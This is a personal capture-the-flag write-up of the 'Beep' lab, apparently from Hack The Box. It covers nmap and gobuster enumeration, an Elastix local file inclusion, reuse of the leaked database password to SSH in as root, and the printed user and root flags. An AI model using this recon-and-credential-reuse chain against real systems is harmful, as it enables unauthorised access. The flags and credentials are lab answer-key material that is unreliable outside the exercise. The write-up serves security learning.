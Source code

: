 #easy

## 0. **Lab infos**

**Difficulty :** Easy
**Name :** Beep
**IP** : 10.129.229.183
**Objectives :** Get user and root flags
**OS :** Linux

##### **Conclusion**
**Time :** 2.19
	**Start :** 04.04.2025 / 18:39
	**Break at/to :** 04.04.2025 / 19:17 | 06.04.2025 / 19:30
	**Finish :** 06.04.2025 / 20:51
**Satisfaction :**  8/10 Because I start with the adventure mode but I use the guided mode for a hint.
### 1. **Reconnaissance

We start with an #nmap scan :

```BASH
nmap -A -v -p- 10.129.229.183

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp?
|_smtp-commands: Couldn't establish connection on port 25
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.129.229.183/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
110/tcp   open  pop3?
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            853/udp   status
|_  100024  1            856/tcp   status
143/tcp   open  imap?
443/tcp   open  ssl/https?
|_ssl-date: 2025-04-04T16:45:04+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Issuer: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2017-04-07T08:22:08
| Not valid after:  2018-04-07T08:22:08
| MD5:   621a:82b6:cf7e:1afa:5284:1c91:60c8:fbc8
|_SHA-1: 800a:c6e7:065e:1198:0187:c452:0d9b:18ef:e557:a09f
856/tcp   open  status     1 (RPC #100024)
993/tcp   open  imaps?
995/tcp   open  pop3s?
3306/tcp  open  mysql?
4190/tcp  open  sieve?
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax?
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-server-header: MiniServ/1.570
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: F3337C71F21F2D6F478E118940F48988
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
```


We make a scan with #gobuster 

```BASH
gobuster dir -u https://10.129.229.183 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,htm,js,txt,log,config,logs,conf,py,db -k
```
-k is for authorizing the expired SSL certificate

```BASH
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htm                 (Status: 403) [Size: 286]
/.html                (Status: 403) [Size: 287]
/index.php            (Status: 200) [Size: 1785]
/images               (Status: 301) [Size: 318] [--> https://10.129.229.183/images/]
/help                 (Status: 301) [Size: 316] [--> https://10.129.229.183/help/]
/register.php         (Status: 200) [Size: 1785]
/themes               (Status: 301) [Size: 318] [--> https://10.129.229.183/themes/]
/modules              (Status: 301) [Size: 319] [--> https://10.129.229.183/modules/]
/mail                 (Status: 301) [Size: 316] [--> https://10.129.229.183/mail/]
/admin                (Status: 301) [Size: 317] [--> https://10.129.229.183/admin/]
/static               (Status: 301) [Size: 318] [--> https://10.129.229.183/static/]
/lang                 (Status: 301) [Size: 316] [--> https://10.129.229.183/lang/]
/config.php           (Status: 200) [Size: 1785]
/robots.txt           (Status: 200) [Size: 28]
/var                  (Status: 301) [Size: 315] [--> https://10.129.229.183/var/]
```

When I enter /admin I got an alert for login and when I click cancel Its sen me there :
![[Pasted image 20250404190403.png]]

We can see that we are on FreePBX 2.8.1.4
We find the CVE-2010-3490
The CVE is not working.

So we start to find if some vulnerabilities with elastix exist and we found this :
![[Pasted image 20250406202904.png]]


## 2. **Weaponization

## 3. **Delivery

## 4. **Exploitation

So let's try the #LFI exploit we find with Elatix.

![[Pasted image 20250406203046.png]]

It's working and we have the following informations :

-  DB :
    
    - `AMPDBUSER=asteriskuser`
        
    - `AMPDBPASS=jEhdIekWmdjE`
        
-  **FreePBX** :
    
    - `AMPMGRUSER=admin`
        
    - `AMPMGRPASS=jEhdIekWmdjE`
        
    - `ARI_ADMIN_USERNAME=admin`

![[Pasted image 20250406203824.png]]

Now we want to connect with ssh :

`ssh admin@10.129.229.183`

Output : `Unable to negotiate with 10.129.229.183 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1`


So we use :

`ssh -oKexAlgorithms=+diffie-hellman-group14-sha1 -oHostKeyAlgorithms=+ssh-rsa admin@10.129.229.183`

Output : ```admin@10.129.229.183's password: 
Permission denied, please try again.
admin@10.129.229.183's password: 
Permission denied, please try again.
admin@10.129.229.183's password: 
admin@10.129.229.183: Permission denied (publickey,gssapi-with-mic,password).```

So we use : `ssh -oKexAlgorithms=+diffie-hellman-group14-sha1 -oHostKeyAlgorithms=+ssh-rsa root@10.129.229.183`

And it's work.

## 5. **Installation

## 6. **Command and Control

## 7. **Actions on Objectives

```BASH
[root@beep ~]# ls
anaconda-ks.cfg  elastix-pr-2.2-1.i386.rpm  install.log  install.log.syslog  postnochroot  root.txt  webmin-1.570-1.noarch.rpm
[root@beep ~]# cat root.txt 
9d8adf4c79a142b7d6eb73b1fc6f40df
[root@beep ~]# pwd
/root
[root@beep ~]# cd /home/
[root@beep home]# ls
fanis  spamfilter
[root@beep home]# cd fanis/
[root@beep fanis]# ls
user.txt
[root@beep fanis]# cd user.txt 
-bash: cd: user.txt: Not a directory
[root@beep fanis]# cat user.txt 
81f8ae88f828a4b420de617b968d4688
```

